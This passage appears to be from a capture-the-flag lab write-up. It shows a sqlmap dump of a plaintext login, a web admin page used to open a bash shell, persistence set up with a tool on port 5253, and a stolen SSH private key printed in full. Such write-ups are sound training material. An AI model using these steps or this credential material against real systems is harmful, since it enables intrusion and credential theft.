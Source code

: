 ```
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+

[19:42:13] [INFO] table 'users.users' dumped to CSV file '/home/monty/.sqlmap/output/cod.hack/dump/users/users.csv'
```

If you login to /administrator.php with those credentials you are presented with a prompt to run commands. Downloading and running linper for port 5253. It did not work, just using shellclip to make one in bash and running that.

Got a shell that way as www-data.

## Persistence

Configured linper on 5253.

## Privilege Escalation

Found readable rsa (ssh) file for pingu
```
www-data@ubuntu:/dev/shm$ cat /home/pingu/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArfwVtcBusqBrJ02SfHLEcpbFcrxUVFezLYEUUFTHRnTwUnsU
aHa3onWWNQKVoOwtr3iaqsandQoNDAaUNocbxnNoJaIAg40G2FEI49wW1Xc9porU
x8haIBCI3LSjBd7GDhyh4T6+o5K8jDfXmNElyp7d5CqPRQHNcSi8lw9pvFqaxUuB
ZYD7XeIR8i08IdivdH2hHaFR32u3hWqcQNWpmyYx4JhdYRdgdlc6U02ahCYhyvYe
LKIgaqWxUjkOOXRyTBXen/A+J9cnwuM3Njx+QhDo6sV7PDBIMx+4SBZ2nKHKFjzY
y2RxhNkZGvL0N14g3udz/qLQFWPICOw218ybaQIDAQABAoIBAClvd9wpUDPKcLqT
hueMjaycq7l/kLXljQ6xRx06k5r8DqAWH+4hF+rhBjzpuKjylo7LskoptYfyNNlA
V9wEoWDJ62vLAURTOeYapntd1zJPi6c2OSa7WHt6dJ3bh1fGjnSd7Q+v2ccrEyxx
wC7s4Is4+q90U1qj60Gf6gov6YapyLHM/yolmZlXunwI3dasEh0uWFd91pAkVwTb
FtzCVthL+KXhB0PSQZQJlkxaOGQ7CDT+bAE43g/Yzl309UQSRLGRxIcEBHRZhTRS
M+jykCBRDJaYmu+hRAuowjRfBYg2xqvAZU9W8ZIkfNjoVE2i+KwVwxITjFZkkqMI
jgL0oAECgYEA3339Ynxj2SE5OfD4JRfCRHpeQOjVzm+6/8IWwHJXr7wl/j49s/Yw
3iemlwJA7XwtDVwxkxvsfHjJ0KvTrh+mjIyfhbyj9HjUCw+E3WZkUMhqefyBJD1v
tTxWWgw3DKaXHqePmu+srUGiVRIua4opyWxuOv0j0g3G17HhlYKL94ECgYEAx0qf
ltrdTUrwr8qRLAqUw8n1jxXbr0uPAmeS6XSXHDTE4It+yu3T606jWNIGblX9Vk1U
mcRk0uhuFIAG2RBdTXnP/4SNUD0FDgo+EXX8xNmMgOm4cJQBdxDRzQa16zhdnZ0C
xrg4V5lSmZA6R38HXNeqcSsdIdHM0LlE31cL1+kCgYBTtLqMgo5bKqhmXSxzqBxo
zXQz14EM2qgtVqJy3eCdv1hzixhNKO5QpoUslfl/eTzefiNLN/AxBoSAFXspAk28
4oZ07pxx2jeBFQTsb4cvAoFuwvYTfrcyKDEndN/Bazu6jYOpwg7orWaBelfMi2jv
Oh9nFJyv9dz9uHAHMWf/AQKBgFh/DKsCeW8PLh4Bx8FU2Yavsfld7XXECbc5owVE
Hq4JyLsldqJKReahvut8KBrq2FpwcHbvvQ3i5K75wxC0sZnr069VfyL4VbxMVA+Q
4zPOnxPHtX1YW+Yxc9ileDcBiqCozkjMGUjc7s7+OsLw56YUpr0mNgOElHzDKJA8
qSexAoGAD4je4calnfcBFzKYkLqW3nfGIuC/4oCscYyhsmSySz5MeLpgx2OV9jpy
t2T6oJZYnYYwiZVTZWoEwKxUnwX/ZN73RRq/mBX7pbwOBBoINejrMPiA1FRo/AY3
pOq0JjdnM+KJtB4ae8UazL0cSJ52GYbsNABrcGEZg6m5pDJD3MM=
-----END RSA PRIVATE KEY-----
```
